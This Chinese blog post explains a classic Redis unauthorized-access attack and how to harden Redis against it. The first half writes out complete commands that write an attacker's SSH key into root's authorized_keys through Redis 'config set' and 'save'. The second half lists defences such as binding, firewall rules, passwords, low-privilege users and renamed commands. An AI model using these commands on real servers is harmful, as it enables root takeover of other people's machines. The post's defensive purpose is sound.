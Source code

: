 ```yaml
---
title: "Redis的一个简单漏洞攻击与防范"
date: 2019-11-16T12:40:16+08:00
draft: false
tags: ["Redis", "安全"]
categories: ["中间件"]
---
```


> Redis是目前使用最为广泛的缓存中间件，使用起来虽然方便、简洁但如果不加一些安全限制的使用，便会导致一些问题。之前我的一位朋友，因为在自己的云服务器上自行部署了Redis用来学习，不久后他的服务器便被人搞去挖矿了...本文讲述Redis简单的漏洞攻击流程以及对应的防范方法。


## 简单的攻击流程
- 如果本地没有配置过ssh，先生成公钥和私钥

  ```shell
    ssh-keygen -t rsa
  ```

- 将公钥写入一个txt文件

  ```shell
  (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > test.txt
  ```

- 连接Redis并把公钥文件写入。

  ```shell
  cat test.txt | redis-cli -h {server.ip} -x set attack_key
  ```

- 登入未受保护的Redis，进行如下命令操作。通过config命令修改了持久化目录及持久化文件名，使持久化的DB文件刚好为root用户SSK key存放的文件，然后save将公钥追加到authorizew_keys文件的末尾，也就上传了公钥。之后便可以使用SSH以root用户登录目标服务器。

  ```shell
  redis-cli -h {server.ip}
  # 下面都是Redis Client的交互命令
  config set dir /root/.ssh/
  config set dbfilename "authorized_keys"
  save
  ```
- 拿到root用户，之后自然就是为所欲为了～

## 线上Redis服务安全加固

> Redis在默认情况下会存在未授权访问漏洞，如果Redis的运行用户为root，黑客可以向root账号导入SSH公钥，从而直接通过SSH入侵服务器。

### 1.限制访问源只能为本地或指定IP

在redis.conf文件中写入一行记录：`bind 127.0.0.1 `，然后重启Redis生效。也存在例外情况，如果Redis以root用户运行，攻击者借助已有的web shell，可以利用该Redis来反弹shell实现提权。？

### 2.设置防火墙策略

通过iptables，仅允许指定的ip来访问Redis服务

```
iptables -A INPUT -s x.x.x.x -p tcp --dport 6379 -j ACCEPT
```

### 3.设置访问密码

在redis.conf中写入`requirepass {your_password}`，设置一个安全度高的密码。

### 4.使用低权限用户运行Redis

使用低权限用户运行Redis，并禁用该账号的远程登录，使用新用户并重启Redis生效。

```
useradd -M -s /sbin/nologin {username}
```

### 5.屏蔽重要指令

可以将一些重要命令设置为空，即禁用，也可以重命名成更复杂的名字。修改完成后需要重启Redis生效。

```
rename-command config ""
rename-command flushall ""
rename-command flushdb ""
rename-command shutdown shutdown_wxj
```

在Redis 3.0.2版本以下存在EVAL沙箱逃逸漏洞，攻击者可以通过该漏洞执行任意Lua代码，可以通过rename config命令和在redis.conf中限制访问源来规避风险。